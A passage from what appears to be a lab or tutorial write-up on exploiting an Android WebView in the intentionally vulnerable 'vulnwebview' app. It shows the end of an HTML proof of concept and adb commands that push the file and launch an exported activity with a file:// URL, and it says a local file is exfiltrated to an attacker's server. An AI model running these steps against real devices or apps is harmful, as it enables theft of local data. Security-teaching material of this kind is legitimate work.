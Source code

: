 ```html
</head>
<body>
    <h1>Loading...</h1>
</body>
</html>
```

**Steps**:

1.  Save the exploit script as `poc.html` and push it to the device:

    ```bash
    adb push poc.html /sdcard/poc.html
    ```
2.  Launch the `RegistrationWebView` activity with the malicious file URL:

    ```bash
    adb shell am start -n com.tmh.vulnwebview/.RegistrationWebView --es reg_url "file:///sdcard/poc.html"
    ```
3. The contents of `MainActivity.xml` will be exfiltrated to the attacker's server.
